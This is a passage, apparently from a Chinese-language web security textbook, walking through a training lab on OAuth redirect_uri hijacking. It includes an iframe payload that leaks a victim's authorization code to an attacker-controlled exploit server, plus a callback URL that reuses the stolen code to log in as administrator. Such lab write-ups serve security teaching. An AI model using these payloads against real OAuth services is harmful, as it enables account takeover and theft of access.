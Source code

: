 图 9.12 – 带有授权码的漏洞服务器访问日志

1.  现在保留该 URL，但返回到主漏洞服务器页面，并将其粘贴到 body 的 iframe 中（请参阅以下代码片段），确保**OAUTH-ID**、**CLIENT-ID**（你第一次登录时的 OAuth ID）和**EXPLOIT-ID**（漏洞服务器的 ID）是正确的：

    ```
     <iframe src="https://OAUTH-ID.web-security-academy.net/auth?client_id=CLIENT_ID&redirect_uri=https://EXPLOIT-ID.exploit-server.net&response_type=code&scope=openid%20profile%20email"></iframe>
    ```

1.  接下来，点击底部的**Store**按钮上传漏洞。一旦完成，*不要*点击**View exploit**，而是从**src" "**复制整个网址，打开一个新的浏览器标签页，将网址粘贴到地址栏并访问它。如前所述，这将打开一个 iframe，展示漏洞服务器网页。

1.  关闭浏览器标签页，返回漏洞服务器并检查**Access log**。你将看到日志显示一个**GET /?code=**请求，带有新生成的代码，如*图 9.13*所示。这是你的代码，但它能让你判断漏洞是否有效：

![图 9.13 – iframe 负载的访问日志](img/Figure_9.13_B18829.jpg)

图 9.13 – iframe 负载的访问日志

1.  将相同的漏洞交付给受害者，然后返回**Access Log**，查找来自不同 IP 地址的新生成代码。从日志中的结果复制受害者的代码：

重要提示

如果代码字符串的末尾有一个破折号（**-**），请确保将这个破折号和整个代码一起复制。

![图 9.14 – 受害者负载响应](img/Figure_9.14_B18829.jpg)

图 9.14 – 受害者负载响应

1.  *先登出*整个网站，使用新捕获的代码，构造一个新的**oauth-callback** URL 并将其粘贴到浏览器的地址栏中访问：

    ```
     https://LAB-ID.web-security-academy.net/oauth-callback?code=STOLEN-CODE
    ```

1.  OAuth 会自动完成身份验证并将你登录为管理员。

1.  进入**Admin**面板。

1.  删除 Carlos。

## 它是如何工作的...

OAuth 2.0 框架是一个常见的身份验证工具，但由于配置错误，常常会出现漏洞。OAuth 流程的一个重要组件是重定向 URL。授权服务器将在用户成功授权某个应用后将用户引导回应用。至关重要的是，服务不能将客户重定向到随机位置，因为重定向 URL 包含关键信息。
